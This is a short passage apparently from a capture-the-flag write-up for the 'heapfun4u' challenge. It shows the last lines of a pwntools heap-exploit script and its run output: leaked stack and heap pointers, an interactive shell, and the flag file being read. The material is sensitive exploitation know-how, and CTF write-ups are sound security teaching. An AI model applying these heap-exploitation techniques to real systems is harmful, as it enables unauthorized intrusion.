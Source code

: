 ```python

write('4', payload)
leave()

r.interactive()
```

Once executed:

```bash
$ ./payload.py
[+] Opening connection to heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me on port 3957: Done
[*] leaked stack ptr: 0x7fffdfb31ffc
[*] saved rip at:     0x7fffdfb32138
[*] forward ptr addr: 0x7fa1d8757008
[*] its content:      0x5e073db130
[*] sanity check:     0x7fffdfb32138
[*] Switching to interactive mode
Leave
$ ls
flag
heapfun4u
$ cat flag
The flag is: Oh noze you pwned my h33p.
$
```
